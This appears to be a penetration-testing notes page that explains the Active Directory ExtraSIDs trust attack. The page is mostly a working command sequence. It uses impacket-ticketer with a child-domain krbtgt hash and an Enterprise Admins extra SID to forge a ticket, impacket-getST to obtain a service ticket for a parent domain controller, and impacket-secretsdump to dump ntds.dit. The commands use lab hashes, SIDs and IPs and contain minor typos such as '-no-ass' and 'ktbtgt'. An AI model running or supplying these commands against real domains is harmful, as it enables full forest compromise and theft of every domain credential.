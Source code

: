```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ExtraSIDs

The ExtraSID attack is a **Kerberos-based privilege escalation technique** that exploits trust relationships between AD domains.&#x20;

By forging a TGT using the KRBTGT hash of a compromised domain and injecting an additional SID (Security Identifier) from a trusted domain—typically a high-privilege group such as Enterprise Admins—the attacker can impersonate privileged users in the trusted domain. This is achieved by populating the `extra-sid` or `SIDHistory` field in the forged ticket, which trusted DCs accept during ticket validation.&#x20;

The attack allows unauthorized access to critical resources in the trusted domain, including DCs, and can result in full forest compromise.

{% tabs %}
{% tab title="TGT" %}
{% code overflow="wrap" %}
```bash
# Get TGT for the target (RC4 hash)
impacket-ticketer -nthash 12b792603f994d46906474202b20b5d4 -domain-sid S-1-5-21-3056178012-3972705859-491075245 -domain internal.zsm.local -extra-sid S-1-5-21-2734290894-461713716-141835440-519 -spn krbtgt/zsm.local x7331

# Get TGT for the terget (krbtgt hash of the child domain)
impacket-ticketer -nthash 0540fe51ddd618f42a66ef059ac36441 -domain-sid S-1-5-21-3056178012-3972705859-491075245 -domain internal.zsm.local -extra-sid S-1-5-21-2734290894-461713716-141835440-519 -spn krbtgt/zsm.local x7331

# Export ticket to session
export KRB5CCNAME=./x7331.ccache

# Confirm the ticket's details
$ klist
Ticket cache: FILE:./tgt.ccache
Default principal: tgt@INTERNAL.ZSM.LOCAL

Valid starting       Expires              Service principal
06/13/2025 16:03:25  06/11/2035 16:03:25  ktbtgt/zsm.local@INTERNAL.ZSM.LOCAL
        renew until 06/11/2035 16:03:25
```
{% endcode %}
{% endtab %}

{% tab title="ST" %}
{% code overflow="wrap" %}
```bash
# Get ST using the TGT
$ impacket-getST -k -no-pass -debug -spn CIFS/ZPH-SVRDC01.zsm.local zsm.local/tgt@zsm.local -dc-ip 192.168.210.10

# Export ticket to session
$ export KRB5CCNAME=tgt@zsm.local
```
{% endcode %}
{% endtab %}

{% tab title="Dump NTDS" %}
{% code overflow="wrap" %}
```bash
# Dump ntds.dit using the ST
$ impacket-secretsdump -k -no-ass -dc-ip 192.168.210.10 tgt@ZPH-SVRDC01.zsm.local -target-ip 192.168.210.10
```
{% endcode %}
{% endtab %}
{% endtabs %}

